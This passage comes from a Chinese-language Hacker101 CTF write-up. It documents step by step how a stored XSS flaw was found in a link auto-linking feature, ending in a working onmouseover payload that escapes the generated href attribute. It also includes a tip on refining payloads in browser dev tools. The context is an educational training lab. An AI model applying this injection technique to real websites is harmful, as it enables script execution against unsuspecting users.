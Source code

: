5.  仔细看题发现，提示 “HTML disallowed, but links will be clickable.”、
    
    5.1 测试`<a herf="http://www.test.com">Click</a>`, 结果`<td>&lt;a herf="<a href="http://www.test.com"&gt;Click&lt;/a&gt;">http://www.test.com"&gt;Click&lt;/a&gt;</a></td>`, 发现可以利用。
    
    5.2 加入 JavaScript 伪协议`<a herf=javascript:alert(1);>Click</a>`, 结果 `<td>&lt;a herf=javascript:alert(1);&gt;Click&lt;/a&gt;</td>`, 发现被转译
    
    5.3 将 javascript:alert(1) 放在 href 中判断是否服务端通过关键字匹配过滤掉了 javascript:alert(1) .`<a herf="[http://www.javascript:alert(1).com">Click](http://www.javascript:alert%281%29.com)`, 结果`<td>&lt;a herf="<a href="http://www.javascript:alert(1).com"&gt;Click&lt;/a&gt;">http://www.javascript:alert(1).com"&gt;Click&lt;/a&gt;</a></td>`。发现 javascript:alert(1) 没有被过滤。事实上在 5.2 中就可以看出来没有被过滤。但是在 5.2 中没有触发出异常。
    
    5.4 开始一点一点删除 5.3 的 herf 中字符，向 5.2 靠近。最后发现必须是`<a href="http://` 的格式才能触发异常，于是开始构建代码进行处理。能够被解析成为 html 代码的片段，只能是 href 中的部分。于是需要绕过**空格限制** 。
    
    5.5 绕过空格限制
    
    ​ 测试`<a herf="http://"onmouseover=javascript:alert(1)`， 结果`<td>&lt;a herf="<a href="http://"onmouseover=javascript:alert(1)">http://"onmouseover=javascript:alert(1)</a></td>` 。发现是双引号没有匹配正确，试了好几次发现只要添加一个`"` ，使引号正确配对就可以了。
    
6.  最终代码  
    payload
    
    ```
    <a herf="http://"onmouseover="javascript:alert(1)
    ```
    
    经过后台处理的代码
    
    ```
    <td><a herf="<a href="http://"onmouseover="javascript:alert(1)">http://"onmouseover="javascript:alert(1)</a></td>
    ```
    
    当鼠标经过是, 出现弹窗。故说明存在存储型 XSS。
    
7.  其他的一些尝试
    
    7.1 使用 url 编码空格为 %20，无效。
    
    7.2 使用；代替空格，无效。这个姿势不知道行不行，记不清书上怎么讲的了。
    
8.  发现一个技巧
    
    不一定每次都要提交自己的代码，让服务器解析，来看载荷的效果。也可以现在本地测试一下，优化一下自己的载荷后，再提交。即使用 F12 调出调试工具，编辑 html，在被服务器解析的源码基础上测试可能的方案，调优后在提交到服务器测试。这样做的好处是，减少了测试的时间，比如这一道题目是存储型的 XSS，当提交了数据后后跳转到另一界面，看结果看需要跳转回来。如果每次都能提交更优的载荷，那么就会省掉很多这种跳转操作。
    
    简而言之: **对自己的猜测，尽量在本地测试一下**
    
    ![](https://delikely.github.io/2018/04/14/Hacker101-writeup/XSS%20trick.gif)
    

### [](#CSRF-with-csrf-token "CSRF with csrf token")CSRF with csrf token

Token 重用 + XSS
